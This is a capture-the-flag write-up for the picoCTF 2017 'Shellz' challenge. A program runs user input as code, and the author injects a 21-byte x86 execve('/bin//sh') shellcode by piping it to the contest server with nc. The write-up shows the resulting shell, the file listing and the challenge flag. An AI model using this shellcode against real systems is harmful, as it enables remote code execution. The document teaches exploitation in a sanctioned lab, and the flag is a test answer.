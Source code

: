 ### Shellz - 55 points

> You no longer have an easy thing to call, but you have more space. Program: shellz! Source. Connect on shell2017.picoctf.com:34621.

Hint:
> There is a bunch of preexisting shellcode already out there!

We are presented with a piece of code, that has string that we can overflow. This string will read from our input (stuff), and will be used to create a function pointer that will be called.
```c
int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
...
void (*func)() = (void (*)())stuff;
    func();
```
The hint tell us that we should use preexisting shellcode, in order to get a shell.
There are a lot of shellcode around the web, and most of them will work (as long as it's below 40 bytes).
I'll be using this one:
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```
Now we can just pass it, using python:
```
(python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'"; cat) | nc shell2017.picoctf.com 34621
```
Keep in mind that we need to pass the cat command so the pipe doesn't close.

After that, we have a shell. We can just pass commands.
```
(python -c "print '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x
69\x6e\x89\xe3\xb0\x0b\xcd\x80'"; cat) | nc shell2017.picoctf.com 34621                           
My mother told me to never accept things from strangers                                           
How bad could running a couple bytes be though?                                                   
Give me 40 bytes:                                                                                 
ls                                                                                                
flag.txt                                                                                          
shellz                                                                                            
shellz_no_aslr                                                                                    
xinetd_wrapper.sh                                                                                 
cat flag.txt                                                                                      
f6f01bf0649b5aa5ec299bb51c8f8db4 
```

Flag:
```
f6f01bf0649b5aa5ec299bb51c8f8db4
```
